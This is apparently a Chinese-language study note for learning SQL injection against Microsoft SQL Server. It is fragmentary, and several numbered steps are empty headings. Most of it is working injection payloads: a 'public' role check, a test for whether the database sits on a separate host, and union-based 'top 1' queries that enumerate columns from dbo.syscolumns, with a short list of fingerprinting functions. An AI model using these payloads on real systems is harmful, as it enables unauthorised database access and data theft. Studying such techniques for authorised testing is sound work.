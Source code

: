 ```
//判断是否有public权限，可以爆破表
and exists(select is_srvrolemember('public'))
或and (select is_srvrolemember('public'))>0

4、查询数据库名
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始

5、查询当前用户

6、查表名

7、爆数据


//常用函数
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始
@@version			数据库版本
User_Name() 	当前用户
host_name()		计算机名称

//是否站库分离,报错是站库分离
1' and ((select host_name())=(select @@SERVERNAME))--+

//排序&获取下一条数据
mssql数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，后面与Oracle数据库注入一样，使用<>或not in 来排除已经显示的数据，获取下一条数据。但是与Oracle数据库不同的是使用not in的时候后面需要带上(‘’)，类似数组，也就是不需要输入多个not in来获取数据，这可以很大程序减少输入的数据量，如下：
//使用<>获取数据 <> : 不等于
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--#
//使用not in获取数据
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')--#
```

#### 联合注入

# 7.17

学习文章：

```
https://blog.csdn.net/suruoxun/article/details/139530306
```

# 渗透测试手法

### 01信息搜集

#### 域名搜集
